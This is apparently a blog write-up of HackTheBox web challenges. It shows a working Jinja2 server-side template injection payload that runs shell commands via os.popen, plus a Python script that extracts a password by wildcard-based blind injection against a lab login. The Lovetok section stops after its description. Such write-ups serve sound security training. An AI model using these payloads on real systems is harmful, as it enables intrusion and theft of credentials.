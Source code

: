 ```yaml
---
title: HackTheBox Web Challenges
date: 2022-07-01 12:00:00 -0400
categories: [Web Security, HTB]
tags: [web security, labs, owasp, writeup, challenge, web]
---
```


# Templated

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/challenges/ch0.jpg)
- Dificulty: easy
- Description: Can you exploit this simple mistake?

## Solution
First we visit the site and see that uses jinja2, this template is susceptible to `SSTI attacks`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/challenges/ch1.jpg)

We see that the directory searched is rendered in the page with 25, so its vulnerable to SSTI.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/challenges/ch2.jpg)

We use the payload that will allow us to `RCE` on the server to read the file `flag.txt`, we extract it from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution).

```python 
# in curly brackets
self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read()
```


Then we get the flag rendered.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/challenges/ch3.jpg)


# Phonebook

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/challenges/ch.jpg)

- Dificulty: easy
- Description: Who is lucky enough to be included in the phonebook?

## Solution

when we enter to the web we see a login screen and a warning, there we discover the user `reese`, but we lack the password, in this case after trying brute force in the password field, the payload '\*' allowed me to bypass the login, then it is deduced that it uses `wildcards` and the flag is the password of reese, since it begins with HTB{\*.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/challenges/ch4.jpg)

We created a python script to brute force the pass with the help of the string and `request library`, I leave the script here for you to try it.

```python
import requests
import string

def obtain_flag(url, flag): 
    creds = {'username':'reese', 'password': flag}
    r=requests.post(url,data=creds)
    if 'success' in r.text:
        return True
    else: 
        return False
    
if __name__=="__main__":
    letters = list(string.ascii_letters)
    begin='HTB{'
    payload= letters + list(string.digits) + [',','_','-','}']
    flag=''
    url= "http://206.189.26.97:30301/login"
    while True:
        for i in payload:
            flag=begin+i+'*'
            if obtain_flag(url,flag):
                begin=begin+i
                print(begin)
            else:
                print(begin)

```

After executing the script we wait for it to decrypt the `password` and we get the flag.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/challenges/ch5.jpg)

# Lovetok

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/challenges/ch7.jpg)

- Dificulty: easy
- Description: True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... 

